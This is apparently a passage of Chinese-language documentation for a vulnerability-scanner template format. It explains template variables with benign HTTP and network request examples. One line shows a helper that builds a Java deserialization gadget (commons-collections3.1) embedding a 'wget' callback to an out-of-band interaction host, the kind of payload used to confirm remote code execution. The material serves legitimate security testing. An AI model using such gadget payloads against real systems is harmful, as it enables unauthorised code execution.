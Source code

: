 **反序列化辅助函数示例：**

```
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "
```

#### 变量

变量可用于声明一些在整个模板中保持不变的值。变量的值一旦计算就不会改变。变量可以是简单的字符串或 DSL 辅助函数。如果变量是辅助函数，则用双花括号括起来`{{<expression>}}`。变量在模板级别声明。

示例变量 -

```
variables:
  a1: "test" # A string variable
  a2: "{{to_lower(rand_base(5))}}" # A DSL function variable
```

目前，dns、http、headless 和网络协议支持变量。

带有变量的模板示例 -

```
# Variable example using HTTP requests
id: variables-example

info:
  name: Variables Example
  author: pdteam
  severity: info

variables:
  a1: "value"
  a2: "{{base64('hello')}}"

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{FQDN}}
        Test: {{a1}}
        Another: {{a2}}
    stop-at-first-match: true
    matchers-condition: or
    matchers:
      - type: word
        words: 
          - "value"
          - "aGVsbG8="
```

```
# Variable example for network requests
id: variables-example

info:
  name: Variables Example
  author: pdteam
  severity: info

variables:
  a1: "PING"
  a2: "{{base64('hello')}}"

network:
  - host: 
      - "{{Hostname}}"
    inputs:
```